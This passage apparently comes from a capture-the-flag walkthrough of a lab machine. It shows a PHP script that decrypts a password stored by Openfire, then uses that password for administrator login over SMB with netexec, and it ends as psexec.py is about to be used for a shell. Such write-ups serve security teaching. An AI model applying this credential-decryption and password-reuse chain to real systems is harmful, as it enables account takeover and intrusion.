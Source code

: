 ```

```

#### Decrypt with Script

I can create a copy of this script with my variables on my host:

```

<?php
function decrypt_openfirepass($ciphertext, $key) {
        $cypher = 'blowfish';
        $mode   = 'cbc';
        $sha1_key = sha1($key, true);
        $td = mcrypt_module_open($cypher, '', $mode, '');
        $ivsize    = mcrypt_enc_get_iv_size($td);
        $iv = substr(hex2bin($ciphertext), 0, $ivsize);
        $ciphertext = substr(hex2bin($ciphertext), $ivsize);
        if ($iv) {
                mcrypt_generic_init($td, $sha1_key, $iv);
                $plaintext = mdecrypt_generic($td, $ciphertext);
        }
        return $plaintext;
}

echo decrypt_openfirepass('becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442', 'hGXiFzsKaAeYLjn');

```

To get it to work, I had to also `apt install php8.2-mcrypt`. Then it just works:

```

oxdf@hacky$ php decrypt.php 
ThisPasswordShouldDo!@

```

### Shell

That password is the box’s administrator password:

```

oxdf@hacky$ netexec smb solarlab.htb -u administrator -p 'ThisPasswordShouldDo!@'
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\administrator:ThisPasswordShouldDo!@ (Pwn3d!)

```

With no WinRM, SSH, or RDP, I’ll use `psexec.py` to get a shell over SMB:
